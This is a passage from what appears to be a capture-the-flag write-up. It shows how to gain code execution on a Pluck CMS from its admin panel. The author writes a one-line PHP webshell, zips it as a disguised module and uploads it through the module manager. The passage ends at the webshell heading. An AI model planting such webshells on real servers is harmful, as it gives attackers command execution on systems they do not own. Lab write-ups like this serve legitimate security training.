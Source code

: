 ![image-20240722173608480](https://0xdf.gitlab.io/img/image-20240722173608480.png)

And then shows the admin panel:

![image-20240722173629137](https://0xdf.gitlab.io/img/image-20240722173629137.png)

### RCE

#### Identify Vulnerability

Given the exact version of Pluck CMS, I can look for vulnerabilities, and there is one:

![image-20240722153542651](https://0xdf.gitlab.io/img/image-20240722153542651.png)

There’s no CVE ID for this. That’s because it’s not actually a vulnerability, but rather, as admin, I can upload a plugin that writes PHP files. [This video](https://www.youtube.com/watch?v=GpL_rz8jgro) shows the process.

#### Create “Module”

I’ll create a malicious Pluck module following the same process I used in [Mist](https://0xdf.gitlab.io/2024/10/26/htb-mist.html#webshell-pluck-module). To start, I’ll create a simple PHP webshell named `0xdf.php` in a directory:

```
oxdf@hacky$ cat 0xdf.php 
<?php system($_REQUEST['cmd']); ?>
```

I’ll put it into a zip archive:

```
oxdf@hacky$ zip notevil.zip 0xdf.php 
  adding: 0xdf.php (stored 0%)
```

#### Upload Module

From the admin panel, I’ll go to options –> manage modules:

![image-20240722174126649](https://0xdf.gitlab.io/img/image-20240722174126649.png)

On the resulting page, I’ll click on “Install a module…”:

![image-20240722174210973](https://0xdf.gitlab.io/img/image-20240722174210973.png)

The next page is a form asking for the module file:

![image-20240722174233043](https://0xdf.gitlab.io/img/image-20240722174233043.png)

I’ll give it the Zip archive I created earlier. It works:

![image-20240722185304031](https://0xdf.gitlab.io/img/image-20240722185304031.png)

#### Webshell
